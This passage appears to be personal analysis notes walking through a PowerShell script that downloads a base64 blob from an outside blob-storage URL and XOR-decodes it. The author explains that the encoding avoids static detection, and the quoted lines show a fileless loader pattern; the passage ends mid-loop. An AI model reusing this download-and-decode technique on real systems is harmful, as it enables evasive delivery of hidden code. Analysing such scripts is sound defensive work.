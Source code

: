 ```powershell
```

------------------


So - first we are setting TLS to 1.2 as a minimum. Nothing odd as any decent script making calls with do this. It does it with the bitwise operator value `3072` instead of commonly seen `TLS1.2` method of the class. 

```powershell
[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072;
```

Then the `$xor` variable is declared as the content of the UTF8 byte stream for the static string `'WinATP-Intro-Injection'`. Here is the non-suppressed output when not assigned to a variable.

![[Pasted image 20240901201651.png]]

The actual nefarious code starts in this snippet but is externally hosted and powershell is merely storing the content of the very long base64. The code is XOR'd so it does not flag any static detections due to this and the `un-XOR-ing` method.

```powershell
$base64String = (Invoke-WebRequest -URI 'https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt' -UseBasicParsing).Content
```

The raw content is displayed below (partially).

![[Pasted image 20240901201206.png]]

A `try/catch` is created where the variable `$contentBytes` is attempted to be declared as the conversion from Base64, if it fails - it tries to remove the first 3 characters as a substring and the tries again.

```powershell
try 
{ 
  $contentBytes = [System.Convert]::FromBase64String($base64String);
} 
catch 
{ 
  $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3));
}
```

`$i` is defined as 0 then the `$decryptedBytes` array is initialized.

```powershell
$i = 0;
$decryptedBytes = @();
```

For each byte in the `$contentBytes` - content is added to the `$decryptedBytes` if the value `$_` bitwise operator matches the `$xor` byte stream at the first section of the index `$xor[$i]`.

It iterates over `$contentBytes` and if there is no match , the `$contentBytes` has first 3 characters trimmed and it tries again, hence the `$i++`.
